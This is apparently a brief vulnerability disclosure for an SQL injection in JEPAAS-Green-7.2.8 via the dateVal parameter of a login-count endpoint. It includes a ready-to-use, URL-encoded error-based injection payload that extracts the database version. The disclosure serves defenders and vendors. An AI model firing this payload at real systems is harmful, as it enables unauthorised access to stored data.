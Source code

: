 SQL injection vulnerability in JEPAAS-Green-7.2.8, via /je/rbac/rbac/loadLoginCount in the dateVal parameter, which could allow a remote user to submit a specially crafted query, allowing an attacker to retrieve all the information stored in the DB.

**payload:**
```
queryType=DAY&dateVal=1%27+and+1%3D%28updatexml%281%2Cconcat%280x7e%2C%28select+version%28%29%29%2C0x7e%29%2C1%29%29+and+%271%27%3D%271
```
![f3a88861020e467029b218560e6aa290.png](https://github.com/abcc111/vulns/blob/main/images/f3a88861020e467029b218560e6aa290.png)
